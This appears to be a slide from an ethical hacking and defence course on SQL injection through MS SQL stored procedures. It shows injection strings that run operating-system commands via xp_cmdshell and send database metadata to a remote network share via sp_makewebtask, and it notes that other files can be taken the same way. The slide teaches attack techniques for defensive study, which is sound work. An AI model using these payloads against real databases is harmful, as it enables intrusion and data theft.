

# MS SQL Stored Procedures
Start with ’ ; EXEC … --
’; EXEC master..xp_cmdshell ‘cmd.exe /c dir c:\ > c:\dir.txt’ –
Writes the list of files and folders names into c:\dir.txt
’; EXEC master..sp_makewebtask "\\10.10.1.3\share\output.html", "SELECT * FROM INFORMATION_SCHEMA.TABLES“
Executes the metadata query and sends it to remote folders
Using same technique, you can even retrieve other important files

Ethical Hacking and Defences
36